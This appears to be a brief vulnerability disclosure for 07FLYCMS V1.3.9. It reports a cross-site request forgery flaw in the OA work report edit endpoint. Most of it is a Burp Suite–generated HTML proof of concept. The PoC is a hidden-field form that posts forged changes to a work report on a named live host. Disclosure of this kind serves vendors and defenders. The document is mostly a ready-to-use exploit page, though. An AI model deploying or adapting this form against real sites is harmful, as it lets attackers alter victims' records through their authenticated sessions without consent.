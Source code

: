 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaWorkReport/edit.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaWorkReport/edit.html" method="POST">
      <input type="hidden" name="id" value="9" />
<input type="hidden" name="name" value="222" />
<input type="hidden" name="work_type" value="1" />
<input type="hidden" name="start_date" value="2024-03-04" />
<input type="hidden" name="end_date" value="2024-03-10" />
<input type="hidden" name="review_user_id" value="1" />
<input type="hidden" name="send_user_id" value="3%2C31" />
<input type="hidden" name="send_user_name" value="%E6%B7%B3%E5%AE%89%E5%8E%BF%E8%BF%8E%E5%A4%8F%E6%96%87%E5%8C%96%E4%BC%A0%E5%AA%92%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8%2C%E5%BC%80%E7%A0%94" />
<input type="hidden" name="content" value="22cs%0D%0A%3Cdiv+id%3D%22translatorExtensionContainer%22+class%3D%22translatorExtension%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+class%3D%22translatorExtension%22+style%3D%22margin%3A0px+auto%3B%22%3E%0D%0A%3C%2Fdiv%3E" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

